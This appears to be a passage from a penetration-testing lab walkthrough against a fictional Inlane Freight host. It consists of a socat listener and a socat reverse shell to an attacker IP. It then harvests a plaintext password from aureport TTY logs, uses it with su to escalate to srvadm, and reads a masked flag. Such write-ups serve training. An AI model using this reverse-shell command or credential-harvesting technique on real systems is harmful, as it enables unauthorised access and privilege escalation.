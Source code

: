 ```
┌──(nabla㉿kali)-[~]
└─$ socat file:`tty`,raw,echo=0 tcp-listen:4443

[CONTINUE]
```

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.204:4443
```

```
[CONTINUE]

webdev@dmz01:/var/www/html/monitoring$
```

```
webdev@dmz01:/var/www/html/monitoring$ id

uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

```
webdev@dmz01:/var/www/html/monitoring$ aureport --tty | less

[SNIP]

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
8. 06/01/22 07:13:36 365 1004 ? 4 sh "exit",<nl>

[SNIP]
```

```yaml
credentials:
    username: srvadm
    password: 'ILFreightnixadm!'
    host: monitoring.inlanefreight.local
```

```
webdev@dmz01:/var/www/html/monitoring$ su srvadm  
Password: 
$
```

```
$ ls -l /home/srvadm

total 4
-rw-r--r-- 1 srvadm srvadm 33 May 30  2022 flag.txt

$ cat /home/srvadm/flag.txt

b447c*************************** 📌
```

---
---
